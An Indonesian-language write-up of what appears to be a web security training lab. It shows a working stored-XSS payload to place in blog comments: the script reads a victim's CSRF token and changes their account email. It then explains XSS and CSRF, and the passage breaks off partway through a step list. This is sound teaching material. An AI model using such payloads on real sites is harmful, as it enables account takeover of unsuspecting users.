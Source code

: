 Payload akhir yang harus Anda injeksikan ke dalam komentar blog korban adalah sebagai berikut. Pastikan untuk mengganti `YOUR_CSRF_TOKEN` dengan token CSRF yang valid jika diperlukan atau memastikan skrip dapat mengambilnya secara dinamis:

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = function() {
        var csrf_token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
        var xhr = new XMLHttpRequest();
        xhr.open("POST", '/my-account/change-email', true);
        xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        xhr.send("email=korbanbaru@test.com&csrf=" + csrf_token);
    };
    req.open('GET', '/my-account', true);
    req.send();
</script>
```

Dengan memasukkan payload ini ke dalam komentar blog korban, setiap kali korban melihat komentar tersebut, skrip akan dijalankan dan alamat email mereka akan diubah.

![Langkah 8](images/Exploiting%20XSS%20to%20perform%20CSRF/8.png)

## Penjelasan

**Cross-Site Scripting (XSS)** adalah kerentanan keamanan yang memungkinkan penyerang untuk menyuntikkan skrip berbahaya ke dalam situs web yang dipercaya oleh pengguna. Dalam kasus ini, kerentanan **Stored XSS** memungkinkan skrip berbahaya disimpan di server (misalnya, dalam komentar blog) dan dijalankan setiap kali pengguna melihat konten tersebut.

**Cross-Site Request Forgery (CSRF)** adalah serangan yang memaksa pengguna yang sudah terautentikasi untuk melakukan tindakan yang tidak diinginkan pada aplikasi web di mana mereka sedang terautentikasi.

### Menggabungkan XSS dan CSRF

Dengan memanfaatkan kerentanan XSS, penyerang dapat menyuntikkan skrip yang secara otomatis melakukan serangan CSRF. Dalam konteks lab ini, skrip yang disuntikkan akan mengirim permintaan POST untuk mengubah alamat email korban tanpa sepengetahuan mereka.

### Langkah-Langkah Rinci

1. **Mengidentifikasi Kerentanan XSS:**
   - Menggunakan payload sederhana seperti `<script>alert('XSS')</script>` untuk memastikan bahwa input komentar dieksekusi sebagai JavaScript.
